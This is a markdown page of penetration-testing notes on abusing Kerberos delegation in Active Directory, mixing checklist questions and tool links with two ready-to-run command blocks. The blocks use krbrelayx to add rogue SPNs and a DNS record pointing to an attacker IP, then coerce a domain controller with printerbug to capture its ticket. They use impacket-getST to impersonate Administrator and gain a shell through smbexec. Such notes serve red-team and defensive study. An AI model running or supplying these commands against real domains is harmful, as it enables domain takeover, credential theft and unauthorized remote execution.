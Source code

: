 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## Unconstrained delegation
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c)
  *  KCD service accounts obtain forwardable TGS differently depending on configuration
      *  `Any authentication protocol` relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to obtain forwardable TGS as any user
      *  `Kerberos only` [limits S4U2Self usage](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition), forwardable TGS are provided by users during auth
  *  `impacket-getST` for obtaining impersonated service tickets
      *  `impacket` suite will [attempt to modify](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) `sname` during target/ticket service mismatch

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1
```
